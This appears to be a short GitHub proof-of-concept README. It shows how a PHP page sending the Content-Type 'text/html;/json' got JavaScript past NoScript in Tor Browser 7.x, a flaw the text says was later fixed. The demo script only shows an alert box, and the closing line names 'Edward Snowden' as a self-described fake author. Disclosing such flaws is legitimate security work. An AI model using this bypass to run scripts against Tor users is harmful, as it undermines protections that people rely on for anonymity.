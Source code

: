 **first set up an hidden service following the other file in this folder**

**Whats is this vuln?**
Simply by changing the http header of the page and using 'text/html;/json' as the Content-Type you are able to bypass NoScript. NoScript is an extension for firefox, in tor browser it is configured to block **all javascript code** of any page. #bigfail #sad #nsa_has_your_ip #letscry2gether

then, lets create a simple php file to bypass it(u can use any language, but i am currently studying php so im gonna use it

```
cd /var/www/html/
nano noscript_bypass.php
```
```
<?php
header('Content-Type: text/html;/json;charset=utf-8');
?>
<html>
    <head>
        <title>NoScript Bypass</title>
    </head>
    <body>
        <script>
            window.alert("JS Bypassed :p");
        </script>
    </body>
</html>
```

cat your .onion domain and go to your domain **USING TOR BROWSER 7.x**(they fixed this flaw on later versions) and see if noscript is enabled, then

myoniondomainhere.onion/noscript_bypass.php


__and voila :), noscript bypassed__


**fake author name: Edward Snowden**
